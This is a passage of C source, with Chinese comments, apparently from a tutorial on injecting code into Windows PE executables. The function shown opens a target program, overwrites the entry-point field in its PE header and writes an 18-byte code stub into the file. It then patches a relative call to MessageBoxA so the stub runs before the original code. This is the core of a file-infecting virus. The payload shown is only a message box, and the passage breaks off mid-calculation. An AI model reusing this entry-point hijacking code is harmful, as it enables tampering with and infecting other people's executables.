 //得到MessageBox在内存中的地址，以便我们使用
}
void writefile()
{
int ret;
long retf;
DWORD address;
int tmp;
unsigned char waddress[4]={0};
ret=_open(filename,_O_RDWR | _O_CREAT | _O_BINARY,_S_IREAD | _S_IWRITE);
if(!ret)
{
printf("error open\n");
return;
}
    
retf=_lseek(ret,(long)peaddress+40,SEEK_SET);
//程序的入口地址在PE文件头开始的40处
if(retf==-1)
{
printf("error seek\n");
return;
}
address=newentryaddress;
tmp=address>>24;
waddress[3]=tmp;
tmp=address<<8;
tmp=tmp>>24;
waddress[2]=tmp;
tmp=address<<16;
tmp=tmp>>24;
waddress[1]=tmp;
tmp=address<<24;
tmp=tmp>>24;
waddress[0]=tmp;
retf=_write(ret,waddress,4);
//把新的入口地址写入文件
if(retf==-1)
{
printf("error write: %d\n",GetLastError());
return;
}
    
retf=_lseek(ret,(long)entrywrite,SEEK_SET);
if(retf==-1)
{
printf("error seek\n");
return;
}
retf=_write(ret,writeline,18);
if(retf==-1)
{
printf("error write: %d\n",GetLastError());
return;
}
//把writeline写入我们计算出的空间
retf=_lseek(ret,(long)entrywrite+9,SEEK_SET);
//更改MessageBox函数地址，它的二进制代码在writeline[10]处
if(retf==-1)
{
printf("error seek\n");
return;
}
address=MessageBoxAadaddress-(progRAV+newentryaddress+9+4);